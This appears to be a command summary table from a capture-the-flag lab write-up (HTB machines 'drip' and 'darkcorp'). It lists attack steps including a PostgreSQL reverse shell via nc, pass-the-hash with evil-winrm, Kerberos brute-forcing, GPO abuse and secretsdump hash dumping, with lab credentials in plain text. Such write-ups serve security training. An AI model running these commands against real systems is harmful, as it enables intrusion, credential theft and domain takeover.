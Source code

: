 | Reverse Shell PSQL | `COPY (...) TO PROGRAM 'mkfifo...nc <IP> 4242'` |
| Decrypt Backup | `gpg --pinentry-mode=loopback --passphrase '2Qa2SsBkQvsc' --decrypt <file>` |
| SSHuttle VPN | `sshuttle -r ebelford:'ThePlague61780'@drip.htb -N 172.16.20.0/24` |
| Evil-WinRM WEB-01 | `evil-winrm -i web-01.darkcorp.htb -u Administrator -H <hash>` |
| Kerberos Bruteforce | `./kerbrute bruteuser -d darkcorp.htb --dc <IP> rockyou2.txt taylor.b.adm` |
| GPO Abuse Powershell | PowerGPOAbuse script & commands |
| Dump Hashes | `impacket-secretsdump darkcorp/taylor.b.adm:'!QAZzaq1'@darkcorp.htb` |
| Evil-WinRM DC-01 Admin | `evil-winrm -i dc-01.darkcorp.htb -u Administrator -H <hash>` |
